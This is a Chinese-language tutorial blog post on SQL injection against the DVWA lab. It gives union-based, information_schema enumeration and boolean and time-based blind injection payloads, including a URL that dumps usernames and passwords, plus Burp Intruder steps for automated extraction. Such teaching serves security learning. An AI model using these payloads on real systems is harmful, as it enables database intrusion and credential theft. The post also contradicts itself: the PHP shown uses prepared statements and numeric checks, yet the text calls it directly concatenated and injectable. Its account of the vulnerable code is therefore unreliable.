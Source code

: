 ```yaml
---
layout: post
title: SQL注入详解
categories: 网络安全
description: SQL注入详解
keywords: SQL注入详解
---
```


SQL注入的几种方式详解

### 1、union联合注入原理

联合查询注入是联合两个表进行注入攻击，使用关键词 union select 对两个表进行联合查询。

假设服务端代码如下

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();

        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

可以看出获取`id`之后直接拼接进入了SQL语句中，此处会有sql注入漏洞。

确定了有漏洞然后就可以根据思路去猜字段，可以通过`order by`来猜有几个字段，两个表的字段要数要相同，不然会出现报错。

```sql
SELECT * FROM `users` WHERE user_id = 1 order by 8 
```

猜到了有几个字段可以进行以下查询

```sql
SELECT * FROM `users` WHERE user_id = 1 union select 1,2,3,4,5,6,7,8 
# 可以在数字的位置替换成函数
SELECT * FROM `users` WHERE user_id = 1 union select 1,2,3,4,5,6,database(),user()
# 如果不想显示user_id=1的数据，可以修改成-1或者NULL，就只显示后面的内容了
SELECT * FROM `users` WHERE user_id = -1 union select 1,2,3,4,5,6,database(),user()
# 有很多条结果的时候可以加 limit 来限制
```

#### 1.1 联合查询注入获取敏感信息

当确定了可以进行SQL注入的时候，可以通过一些内置函数来获取数据库的信息

```sql
SELECT * FROM `guestbook` WHERE user_id = -1 union select 1,database(),user();
```

#### 1.2 联合查询注入通过 information_schema 获取表

在黑盒的情况下是不知道当前库有什么表的，可以通过 mysql 自带的information_schema 查询当前库的表。查询当前库的表 `limit 1` 相当于 `limit 1,1 `表示显示第一个 1 改成 2 就是第二个如此类推

```sql
# 有请求连接如下，已知可以字符注入 /sqli/?id=1&Submit=Submit

# 构造语句 获取当前位置的第一个表
/sqli/?id=-1' union select 1, (select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1) --+&Submit=Submit#

# 获取第二个表
/sqli/?id=-1' union select 1, (select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1,1 ) --+&Submit=Submit#

# 获取字段，可以通过修改limit 获取不同的字段
((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 1))

# 查到字段之后，读取表内的内容
/sqli/?id=-1' union select 1,(select group_concat(user,0x3a,password) from users) --+&Submit=Submit#
```

### 2、boolean  布尔型盲注入

有服务端代码如下

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();

        // Get results
        if( $data->rowCount() == 1 ) {
            // Feedback for end user
            echo '<pre>User ID exists in the database.</pre>';
        }
        else {
            // User wasn't found, so the page wasn't!
            header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

            // Feedback for end user
            echo '<pre>User ID is MISSING from the database.</pre>';
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

根据代码可以看出来，虽然有sql注入漏洞，但是没有返回具体的数据库的信息，只返回了两种状态，这种叫`盲注入`

盲注入分为两种：

1. 布尔型盲注入
2. 延时注入

#### 2.1 判断盲注入

入 SQL 注入检测语句 判断页面是否不一样，如果不一样大概会存在 SQL 注入漏洞` 1'and '1'='1 `一样，` 1'and '1'='2` 不一样，如果输入检测语句页面没有任何改变可以使用延时语句进行检测 `1'and sleep(10)--+ `通过这两个检测方法的判断，可以确定存在 SQL 注入漏洞。

普通盲注入判断：

```txt
# 有以下两个注入语句
/sqli_blind/?id=1' and 1=1 -- &Submit=Submit#    #返回User ID exists in the database.
/sqli_blind/?id=1' and 1=2 -- &Submit=Submit#    #返回User ID is MISSING from the database.
```

延时注入判断：

```txt
sqli_blind/?id=1' and sleep(2) -- &Submit=Submit#
```

#### 2.2 布尔型注入

布尔型注入攻击，因为页面不会返回任何数据库内容，所以不能使用联合查询将敏感信息显示在页面，但是可以通过构造 SQL 语句，获取数据。

布尔型盲注入用到得 SQL 语句 select if(1=1,1,0)，if()函数在 mysql 是判断，第一个参数表达式，如果条件成立，会显示 1，否则显示 0。1=1 表达式可以换成构造的 SQL 攻击语句。

```txt
# 构建url
sqli_blind/?id=1' and if(3>2,1,0) -- 
```

#### 2.3 布尔型盲注入获取敏感信息

在黑盒的环境下，通过构造 SQL 注入语句，根据页面的特征确定获取敏感信息。

布尔型盲注入用到的函数`SUBSTRING()`：字符串截取，第一个参数是字符串，第二个参数是开始截取 第三个是截取的长度。

select database()查询当前库。

盲注入获取库名流程：

1. 用 if 函数进行构造 select if(SUBSTRING(database(),1,1)='d',1,0) 判断数据库第一个字是不是字符 d，如果是返回 1 否则返回 0 。
2. 接着判断第二个字符。将 substring 第二个参数写成 2 因为要截取第二个字符
   select if(SUBSTRING(database(),2,1)='v',1,0) 第二个字符为 v。如此类推。再后拼接字符就是完整的库名

很多时候是黑盒模式，不知道库名，也不知道啥的，我们就要首先判断注入，判断完注入就获取数据库的长度，得到长度再查询库名，通过库名再查询表，接着通过表查询字段，最后查询某表指定的数据。

#### 2.4 布尔型盲注入查询长度

要查询当前库名，首先确定要查询数据库的长度，再通过截取字符进行对比。

构造注入语句

```txt
# 盲猜数据库名的长度是4，判断输出是1还是0进行确认长度，可能需要多次尝试才可以试出来
sqli_blind/?id=1' and if(length(database())=4,1,0)--+&Submit=Submit#
```

知道了库名的长度是4，截取每个字符再进行判断

```txt
# 截取字符判断
1' and if(substring(database(),1,1)='a',1,0)--+
1' and if(substring(database(),1,1)='d',1,0)--+

1' and if(substring(database(),2,1)='v',1,0)--+
...
#... 疯狂尝试
```

每次截取的值都要与这些字符`0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz.@_`对比，进行判断，最后得到库名。

手动注入这么多次累死了，可以配合burp suite进行抓包检测

burp suite进行sql注入流程：

1. 抓到数据包发送到intruder
2. 清除掉所有变量之后，添加变量，如下：`?id=1%27%20and%20if(substring(database(),§1§,1)=%27§v§%27,1,0)--+&Submit=Submit`，选择`attack type=cluster bomb`
3. 第一个变量知道长度是4，所以设置`payload type=Numbers`,设置`payload options[Numbers]`的number range为1~4，每次递增1，`number format`设置为`Hex`
4. 第二个变量就是上面的那一串字符串，可以通过`add from list`选择`a-z/A-Z/0-9`最后再把`.@_`依次添加进去，MySQL大小写不敏感，可以不添加大写的`A-Z`
5. 执行攻击，通过状态`200`的排序查看，可以获得以下数据`4:a/1:d/2:v/3:w`，通过`1-4`的顺序，组合出库名为`dvwa`
